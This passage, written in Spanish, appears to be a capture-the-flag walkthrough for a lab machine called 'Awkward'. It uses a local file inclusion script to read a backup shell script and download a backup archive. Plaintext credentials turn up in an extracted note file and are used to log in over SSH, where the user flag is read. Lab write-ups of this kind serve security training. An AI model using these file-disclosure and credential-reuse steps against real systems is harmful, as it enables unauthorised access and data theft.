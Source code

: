 Vemos un alias con una ruta a un script en bash, vamos a echarle un vistazo

```shell
❯ python3 lfi.py /home/bean/Documents/backup_home.sh                   
#!/bin/bash
mkdir /home/bean/Documents/backup_tmp
cd /home/bean
tar --exclude='.npm' --exclude='.cache' --exclude='.vscode' -czvf /home/bean/Documents/backup_tmp/bean_backup.tar.gz .
date > /home/bean/Documents/backup_tmp/time.txt
cd /home/bean/Documents/backup_tmp
tar -czvf /home/bean/Documents/backup/bean_backup_final.tar.gz .
rm -r /home/bean/Documents/backup_tmp
```

En la penúltima linea encontramos un archivo tar.gz, procederemos a descargarlo con -d 

```shell
❯ python3 lfi.py /home/bean/Documents/backup/bean_backup_final.tar.gz -d

❯ ls
bean_backup_final.tar.gz  lfi.py
```

Descomprimimos un archivo y nos queda otro comprimido y un txt

```shell
❯ tar -xf bean_backup_final.tar.gz 

❯ ls
bean_backup.tar.gz  bean_backup_final.tar.gz  time.txt  lfi.py
```

Dentro de un archivo en .config encontramos las credenciales de bean

```shell
❯ cat .config/xpad/content-DS1ZS1
TO DO:
- Get real hat prices / stock from Christine
- Implement more secure hashing mechanism for HR system
- Setup better confirmation message when adding item to cart
- Add support for item quantity > 1
- Implement checkout system

bean.hill
014mrbeanrules!#P
```

Nos conectamos por SSH y tenemos la primera flag

```shell
❯ ssh bean@10.10.11.185
bean@10.10.11.185's password: 014mrbeanrules!#P
bean@awkward:~$ id
uid=1001(bean) gid=1001(bean) groups=1001(bean)
bean@awkward:~$ hostname -I
10.10.11.185 dead:beef::250:56ff:feb9:4420 
bean@awkward:~$ cat user.txt 
512**************************513
bean@awkward:~$
```
